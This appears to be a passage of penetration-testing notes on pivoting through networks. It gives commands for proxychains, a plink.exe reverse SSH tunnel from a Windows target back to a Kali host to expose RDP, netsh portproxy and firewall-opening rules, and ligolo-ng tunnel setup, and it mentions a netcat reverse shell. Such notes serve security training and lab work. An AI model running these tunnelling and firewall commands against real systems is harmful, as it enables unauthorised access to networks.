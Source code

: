 ```bash
```
`socks5 127.0.0.1 9998` >> `/etc/proxychains4.conf`
Then connect to host2 by `proxychain` from kali.
### Plink
host1: firewall - tcp/80 inbound, all outbound.
Use `nc.exe` to trick a reverse shell.
```bash
find / -name plink.exe 2>/dev/null
```
Then can transfer the plink.exe to target windows.
On windows, forward local port `9833`<-`3389` :
kali <<< host:80 -> host:9833 ->rdp 
```bash
plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 [kali ip]
```
Then connect rdp to `127.0.0.1:9833` on kali.
### Netsh
Default on Windows. Requires **administrative privileges**
kali ->(rdp) host1 ->x host2
Add a **portproxy** rule from an IPv4 listener that is forwarded to an IPv4 port.
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=[host1] connectport=22 connectaddress=[host2]
```
Check:
```bash
netsh interface portproxy show all
```
Poke a hole in the firewall (rule `in`):
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=[host1] localport=2222 action=allow
```
kali ->(ssh) host1:2222 -> host2
we can **delete** the firewall rule:
```powershell
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```
 Delete the port forward we created:
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=[host1]
```
# Tunneling Through Deep Packet Inspection
## ligolo-ng
[ligolo-ng](https://github.com/nicocha30/ligolo-ng)   [release](https://github.com/nicocha30/ligolo-ng/releases)
```bash
sudo apt install ligolo-ng
```
### Proxy set up
```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```
start proxy (443 port)
```bash
ligolo-proxy -selfcert -laddr 0.0.0.0:443
```
set port forwarding(eg.) host1:80 forward host2:80:
```powershell
ligolo listener_add --addr [host2]:80 --to [host1]:80 --tcp
```